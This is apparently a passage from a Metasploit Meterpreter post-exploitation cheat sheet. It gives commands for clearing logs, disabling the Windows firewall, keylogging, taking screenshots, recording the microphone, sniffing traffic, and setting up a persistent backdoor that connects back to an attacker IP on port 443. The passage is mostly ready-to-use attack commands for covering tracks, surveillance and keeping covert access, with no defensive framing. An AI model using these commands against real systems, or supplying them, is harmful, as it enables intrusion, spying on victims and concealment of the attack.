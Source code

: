 	clearrev (clear logs - system privileges)

### Desactivate firewall

	shell (system privileges)
	netsh firewall show opmode (on windows shell - check status of firewall)
	netsh firewall set opmode mode = disable profile = all (on windows shell - check status of firewall)
	exit

### Keyloger

	keyscan_start (need to be user who want to spy)
	keyscan_dump (results)
	keyscan_stop
	screenshot
	run vnc (remote access)
	record_mic 10 (record 10s)

### Sniffer

Network sniffer.

Librairies:

	use -l
	
	use sniffer
	sniffer_interfaces (show interfaces)
	sniffer_start 1 1024 (interface & buffer (when buffer is full the datas we'll be send))
	sniffer_stats 1 (status)
	sniffer_dump 1 file.pcap (send results to file)
	wireshark file.pcap (open file)
	sniffer_stop 1

### Backdoor

Easy backdoor implementation.

	run persistence -h (execute payload - program task)
	run persistence (configuration recommanded)
	
	run persistence -A -L C:\\temp\\ -x -i 15 -p 443 -r 10.1.1.12
	
	: Automatically start
	: localisation
	: Automatically start on boot
	: time in second to try connect to listener (recommanded to use bigger number)
	: port
	: Kali IP

keep information returning by the console to analyse - contain link to script (.rc) to remove persitence
	
resource URL (use link returning by console)
